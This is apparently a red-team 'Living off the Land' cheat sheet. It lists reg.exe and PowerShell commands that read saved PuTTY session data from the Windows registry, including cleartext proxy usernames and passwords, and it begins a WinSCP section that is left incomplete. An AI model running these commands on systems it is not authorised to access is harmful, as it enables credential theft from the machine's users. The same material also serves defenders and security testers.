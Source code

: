 # Living off the Land

## 01 - PuTTY clear text proxy credentials

### 1.1 - Command Prompt

```
C:\> reg.exe query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /f "HostName" /s

C:\> reg.exe query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /f "UserName" /s

C:\> reg.exe query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /f "PortNumber" /s

C:\> reg.exe query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /f "PortForwardings" /s

C:\> reg.exe query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /f "ProxyUsername" /s

C:\> reg.exe query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /f "ProxyPassword" /s
```

### 1.2 - PowerShell

```
PS C:\> Get-ItemPropertyValue -Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions -Name "HostName"

PS C:\> Get-ItemPropertyValue -Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions -Name "UserName"

PS C:\> Get-ItemPropertyValue -Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions -Name "PortNumber"

PS C:\> Get-ItemPropertyValue -Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions -Name "PortForwardings"

PS C:\> Get-ItemPropertyValue -Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions -Name "ProxyUsername"

PS C:\> Get-ItemPropertyValue -Path HKCU:\SOFTWARE\SimonTatham\PuTTY\Sessions -Name "ProxyPassword"
```

## 02 - WinSCP

### 2.1 - Command Prompt

```
C:\> reg.exe query "HKCU\Software\Martin Prikryl\WinSCP 2\Sessions"
```

### 2.2 - PowerShell

```

```